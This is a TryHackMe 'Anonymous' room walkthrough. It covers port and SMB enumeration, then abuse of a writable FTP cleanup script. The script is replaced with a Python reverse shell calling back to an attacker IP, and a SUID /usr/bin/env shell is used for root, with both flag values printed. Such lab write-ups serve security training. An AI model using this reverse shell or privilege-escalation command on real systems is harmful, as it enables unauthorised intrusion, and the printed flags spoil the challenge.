# TryHackMe - Anonymous Write-up


## Room Information

Anonymous is a medium TryHackMe room focused on Linux enumeration, anonymous FTP access, SMB enumeration, reverse shell exploitation, and Linux privilege escalation. The room demonstrates how misconfigured services and insecure permissions can lead to complete system compromise.

---

## Objective

The objective of this room was to enumerate the target machine, identify exposed services, exploit a writable FTP directory to gain initial access, perform Linux enumeration, escalate privileges to root, and capture both the user and root flags.

---

## Tools Used

* Nmap
* Enum4Linux
* FTP
* Netcat
* Find
* Linux Shell

---

# Task 1: Reconnaissance

### Questions

* Enumerate the machine. How many ports are open?
* What service is running on port 21?
* What service is running on ports 139 and 445?

## Nmap Scan

I began by performing an Nmap scan to identify open ports and the services running on the target machine.

```bash
nmap -sV -sS -T4 10.49.147.229
```

## Results

The scan revealed four open ports:

* Port 21 → FTP
* Port 22 → SSH
* Port 139 → SMB
* Port 445 → SMB

The enumeration showed that FTP allowed anonymous access while SMB was also exposed for further investigation.



---

# Task 2: SMB Enumeration

### Question

* There's a share on the user's computer. What's it called?

After discovering SMB services, I enumerated the available shares using Enum4Linux.

```bash
enum4linux -S 10.49.147.229
```




## Results

The enumeration revealed the following shares:

* print$
* pics
* IPC$

The **pics** share was accessible without authentication.



---

# Task 3: FTP Enumeration

Since FTP was running and anonymous login was enabled, I connected to the FTP server.

```bash
ftp 10.49.147.229
```

Login credentials:

```text
Username: anonymous
Password:
```

Authentication was successful.

Inside the FTP server I discovered a directory named **scripts**.

```bash
ls
cd scripts
ls -la
```

The directory contained the following files:

* clean.sh
* removed_files.log
* to_do.txt



---

## Inspecting the Cleanup Script

I examined the contents of **clean.sh**.

```bash
more clean.sh
```

The script appeared to be a cleanup script that was periodically executed by the system.

```bash
#!/bin/bash

tmp_files=0

echo $tmp_files

if [ $tmp_files=0 ]
then
    echo "Running cleanup script: nothing to delete"
else
    ...
fi
```

Since the script was writable through FTP, it became a potential attack vector.



---

# Task 4: Gaining Initial Access

During FTP enumeration, I discovered a file named **clean.sh** inside the writable **scripts** directory. After inspecting the script, I noticed that it was a cleanup script responsible for removing temporary files and writing its activity to a log file.

```bash
more clean.sh
```

The original script looked like this:

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files

if [ $tmp_files=0 ]
then
    echo "Running cleanup script: nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log
    done
fi
```



Since the **scripts** directory was writable through anonymous FTP, I realized I could replace the original cleanup script with my own code. The system was executing this script automatically, making it an ideal opportunity to gain remote code execution.

I replaced the contents of **clean.sh** with a Python reverse shell payload.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```



Before uploading the modified script, I started a Netcat listener on my attacking machine.

```bash
nc -lvnp 1234
```


I then uploaded the malicious version of **clean.sh** back to the FTP server.

```bash
put clean.sh
```
$[upload](images/pa7.pgn)

After the scheduled task executed the modified script, the reverse shell connected back to my Netcat listener, providing an interactive shell on the target machine as the **namelessone** user.


Next, I went  to the  Netcat listener which i had started earlier on my attack machine.

```bash
nc -lvnp 1234
```

Once the scheduled task executed the modified script, I received a reverse shell.

```bash
whoami
```

Output:

```text
namelessone
```


---

# Task 5: Capturing the User Flag

With shell access established, I navigated to the user's home directory.

```bash
cd
ls
cat user.txt
```

## Results

User Flag:

```text
90d6f992585815ff991e68748c414740
```



---

# Task 6: Privilege Escalation

### Question

* Obtain the root flag.

To identify privilege escalation opportunities, I searched for SUID binaries.

```bash
find / -perm -u=s -type f 2>/dev/null
```

The enumeration returned several binaries, including:

```text
/usr/bin/env
```

Since **env** had the SUID bit set, it could be abused to spawn a privileged shell.

I executed the following command:

```bash
/usr/bin/env /bin/sh -p
```

I verified my privileges.

```bash
whoami
```

Output:

```text
root
```



---

# Task 7: Capturing the Root Flag

With root access obtained, I read the final flag.

```bash
cat /root/root.txt
```

## Results

Root Flag:

```text
4d930091c31a622a7ed10f27999af363
```



---


---

# Lessons Learned

* Performing service enumeration with Nmap.
* Enumerating SMB shares using Enum4Linux.
* Exploiting anonymous FTP access.
* Identifying writable files that are executed by the system.
* Uploading a malicious script to obtain a reverse shell.
* Establishing a reverse shell using Netcat.
* Enumerating Linux SUID binaries.
* Exploiting misconfigured SUID binaries for privilege escalation.
* Capturing user and root flags after full system compromise.

---

# Conclusion

This room demonstrated how a seemingly harmless anonymous FTP service can become a critical security risk when writable files are executed automatically by the system. After performing reconnaissance with Nmap and Enum4Linux, I discovered a writable FTP script that allowed me to upload a reverse shell and gain initial access as the **namelessone** user. From there, Linux enumeration revealed a misconfigured SUID binary (**/usr/bin/env**), which I abused to escalate privileges to **root**. This room reinforced the importance of thorough enumeration, identifying insecure service configurations, and checking common Linux privilege escalation vectors during a penetration test.
